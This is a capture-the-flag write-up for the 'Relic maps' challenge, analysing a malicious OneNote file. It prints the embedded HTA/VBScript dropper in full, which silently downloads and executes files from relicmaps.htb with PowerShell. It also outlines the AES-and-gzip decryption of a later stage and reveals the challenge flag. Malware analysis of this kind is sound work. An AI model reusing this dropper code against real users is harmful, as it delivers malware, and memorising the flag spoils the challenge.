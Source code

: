 # Relic maps (medium)
The challenge prompts us to go the a URL, so I went to it and downloaded the `relicmaps.one` file.
The `file` command returns nothing interesting, so I ran `strings` on the blob.

The result contains an interesting piece of code:
```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
Close
</script>
</head>
<body>
</body>
</html>
```

We see that 2 URLs are downloaded from and then executed.
The first URL returns a 404, however the second one returns a new bat script I have saved in `stage2.bat`.

This bash script is a bit obfuscated, although it is not difficult to reverse it.

Basically we have a bunch of `set` statements that set some arbitrary string to a few characters.
At the end of the file all these random strings are concatenated to form the script.

I have extracted all the defined string into the `s2defs.txt` file and used regex to convert the concatenation part at the bottom of the `bat` file to a nice one token per line string, which can be found in `ext.py`.

The script parses all *defs* and substitutes the corresponding string into the concatenated string to deobfuscate the script.

The full deobfuscated script can be seen in `nice2.bat`.
This script invokes a powershell command that executed the script passed as the argument.

I felt it wasn't too hard to read, so I didn't separately deobfuscate it.
* Reads each line of the original `stage2.bat` until `::` is found (this is a comment in `.bat` syntax), it contains a long base64 string in our case, and decodes it
* Creates and AES CBC cipher with PKCS7 padding with key and iv decoded from base64 strings.
* The decoded string is decrypted using the AES cipher
* The resulting bytes are GZIP decompressed
* The resulting bytes are interpreted as a .NET assembly an are invoked directly from the powershell script

I wrote `dec.py` to carry out this decryption process, the result is saved in `stage3.bin`, which is indeed a .NET assembly.

I loaded the assembly into ILSpy and the flag was waiting for me in the `Main` function in a variable

```cs
string text = "HTB{0neN0Te?_iT'5_4_tr4P!}";
```
